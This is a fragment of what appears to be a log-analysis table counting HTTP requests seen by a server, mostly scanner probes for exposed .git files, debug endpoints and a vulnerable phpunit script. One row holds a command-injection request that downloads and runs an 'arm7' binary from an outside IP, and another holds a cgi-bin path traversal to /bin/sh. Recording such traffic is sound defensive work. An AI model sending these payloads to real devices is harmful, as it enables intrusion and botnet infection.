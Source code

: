 |   4 |                    24 | POST / HTTP/1.1                                                                                                                                                                                                                                                                                                                                            |
|   5 |                    15 | GET /.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
|   6 |                     7 | \x16\x03\x02\x01o\x01\x00\x01k\x03\x02RH\xC5\x1A#\xF7:N\xDF\xE2\xB4\x82/\xFF\x09T\x9F\xA7\xC4y\xB0h\xC6\x13\x8C\xA4\x1C=\x22\xE1\x1A\x98 \x84\xB4,\x85\xAFn\xE3Y\xBBbhl\xFF(=':\xA9\x82\xD9o\xC8\xA2\xD7\x93\x98\xB4\xEF\x80\xE5\xB9\x90\x00(\xC0                                                                                                          |
|   7 |                     7 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F185.121.15.223%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                |
|   8 |                     7 | POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1                                                                                                                                                                                                                                                                            |
|   9 |                     6 | GET /geoserver/web/ HTTP/1.1                                                                                                                                                                                                                                                                                                                               |
|  10 |                     5 | GET /?XDEBUG_SESSION_START=phpstorm HTTP/1.1                                                                                                                                                                                                                                                                                                               |
|  11 |                     5 | OPTIONS / HTTP/1.0                                                                                                                                                                                                                                                                                                                                         |
|  12 |                     5 | GET /nice%20ports%2C/Tri%6Eity.txt%2ebak HTTP/1.0                                                                                                                                                                                                                                                                                                          |
|  13 |                     5 | GET /admin/assets/js/views/login.js HTTP/1.0                                                                                                                                                                                                                                                                                                               |
|  14 |                     5 | GET /.git/refs/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                   |
|  15 |                     5 | GET /systembc/password.php HTTP/1.1                                                                                                                                                                                                                                                                                                                        |
|  16 |                     5 | GET /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                           |
|  17 |                     5 | GET /geoip/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                       |
|  18 |                     5 | GET /form.html HTTP/1.1                                                                                                                                                                                                                                                                                                                                    |